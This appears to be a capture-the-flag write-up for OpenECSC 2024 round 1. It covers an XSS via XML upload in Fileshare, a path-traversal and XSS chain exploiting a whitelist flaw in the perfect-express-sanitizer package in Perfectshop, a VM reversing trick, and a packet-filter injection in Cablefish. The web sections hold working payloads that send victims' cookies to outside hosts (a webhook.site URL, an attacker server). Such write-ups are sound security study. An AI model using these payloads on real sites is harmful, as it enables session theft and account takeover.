# OpenECSC 2024 round 1
https://github.com/ECSC2024/openECSC-2024 <br>
https://open.ecsc2024.it/

### Index
- [Web](#web)
    - [Fileshare](#chal1)
    - [Perfectshop](#chal2)
- [Reversing](#Reversing)
    - [fsvm1](#chal1)
- [Misc](#misc)
    - [Cablefish](#misc1)



# Web

## Fileshare
You can now share your files for free thanks to our new disruptive technology! <br>
Site: https://fileshare.challs.open.ecsc2024.it

### Solution

This challenge consists of a classic XSS (Cross Site Scripting) vulnerability. <br>
You are able to upload files and the goal is to get clients to execute a javascript payload, which steals their cookies. <br>
A headless rabbitmq chrome browser, containing the flag as a cookie, is used to simulate that client. You call it by sending a request to support.php.<br>

The Sanitization of the mimetype of the file uploaded is done poorly, it is possible to upload various malicious mimetypes such as application/xml, application/svg, etc. <br>
```php
// upload.php

// sanitize mimetype to not allow "h" letter
$type = $_FILES["file"]["type"];  // mime type of the file, not checked by php
// I don't like the letter 'h'
if ($type == "" || preg_match("/h/i", $type) == 1){    // empty or contains 'h'
    $type = "text/plain";
}

```

When downloading a file, the server adds the mimetype and reads the file and writes it to the output buffer using readfile(). <br>
```php
// download.php

if ($row) {
    $path = "/uploads/$id";
    header('Content-Type: '. $row['content_type']);

    // reads a file and writes it to the output buffer.
    readfile($path);
} else {
    header('Location: /');
}
```

My solution uses the application/xml mimetype to upload a xml file containing a javascript payload. This payload then sends the victims cookies to a server the attacker controll<br>
```javascript
Content-Type: application/xml

<script xmlns="http://www.w3.org/1999/xhtml"><![CDATA[
var message = document.cookie;
document.location="https://webhook.site/1425f028-434d-494f-8e2c-d308787ccebe/?c="+message;
]]></script>
```


## Perfectshop
Do you like perfect things? Check out my new online shop! <br>
Site: http://perfectshop.challs.open.ecsc2024.it

### Solution

To solve Perfectshop you need to craft a payload containing Path Traversal, XSS and using a 0day in an dependency used. <br>


The App utilizes the perfect-express-sanitizer middleware to sanitize every request for Cross Site Scripting, except requests going to the whitelisted /admin endpoint. <br>
Repository of sanitizer middleware: https://github.com/pariazar/perfect-express-sanitizer
```javascript
const sanitizer = require("perfect-express-sanitizer");
app.use(sanitizer.clean({ xss: true }, ["/admin"]));
```

The Sanitizer Middleware cointains a flaw, when checking for requests going to whitelisted endpoints. <br>
Commit fixing the 0day: https://github.com/pariazar/perfect-express-sanitizer/commit/32ff0f08c74bb4fa6224acff06ebbc3b869f16f5
```javascript
// it should be checking if the url starts with the whitelisted endpoint, not if it contains it.
if (req[k] && !whiteList.some((v) => req.url.trim().includes(v))) {
if (req[k] && !whiteList.some((v) => req.url.trim().startsWith(v))) {   // fixed version
```


It is important to include "/admin" in the URL and the body of the request, to prevent the sanitizer from cleaning the payload. <br>
First the payload uses a simple Path Traversal to access the /search endpoint, to be able to execute the reflected XSS vulnerability. <br>
Then the payload loads a script from the attackers server, which sends the cookies to the attacker. This is done to bypass the search query limit of 50 characters.<br>
#### Payload
```http
POST /report?q=/admin HTTP/1.1
id=3../../../search?q=<script%20src="http://f1re.dev/admin"></script>&message=as/admin
```
#### Payload Script on Attackers Server
```javascript
fetch('http://<attackers_server>/${document.cookie}')
```


# Reversing

## fsvm1
I want this VM to generate a good description, but all I get is "no".

### Solution

Fsvm1 is a reversing challenge with VM-based obfuscation.<br>
Normally the goal would be to write a disassembler, which provides pseudo disassembly code of the bytecode. <br>
Luckily the virtual registers are implemented using files, which gives the possibility to monitor the filesystem for changes. When done, the flag is obtained as an ASCII encoded string of numbers.<br>

```bash
while inotifywait -e close_write -r regs/; do 
cat regs/*
done
```
```bash
regs/ CLOSE_WRITE,CLOSE reg0
1251111flag:0regs/ CLOSE_WRITE,CLOSE reg0
61flag:05210014000regs/ CLOSE_WRITE,CLOSE reg2
0121flag:052101565599521001400000000regs/ CLOSE_WRITE,CLOSE reg2
01211211flag:012111810999521015655995210014000000000000regs/ CLOSE_WRITE,CLOSE reg2
01011flag:011410197115121118109995210156559952100140000000000000000regs/ CLOSE_WRITE,CLOSE reg1
121flag:0115117112101114101971151211181099952101565599521001400000000000000000000regs/ CLOSE_WRITE,CLOSE reg2
691flag:06783671231151171121011141019711512111810999521015655995210014000000000000000000000000regs/ CLOSE_WRITE,CLOSE reg1
1111110flag:0111111210111069678367123115117112101114101971151211181099952101565599521001400000000000000000000000000000 
```

# Misc

## Cablefish
Welcome to our platform! Here you can do traffic analysis via TCP, isn't it awesome? <br>
Just specify your filter, we will sanitize it (we want to make sure no sensitive data will be leaked) and you will be given the traffic! <br>
This is a remote challenge, you can connect with: <br>
nc cablefish.challs.open.ecsc2024.it 38005 <br>

### Solution

when connecting you are able to specify a filter, the filter will be sanitized and then used to filter the traffic. <br>
the goal is to escape the sanitization to get the flag. <br>

```python
# sanitization filter:
filter = filter[:50]
sanitized_filter = f'(({filter}) and (not frame contains "flag_placeholder"))'

# payload: frame contains "flag_placeholder") or not (tcp

```



<img src="cablefish_flag.png" alt="cablefish_flag.png" width="600"/>

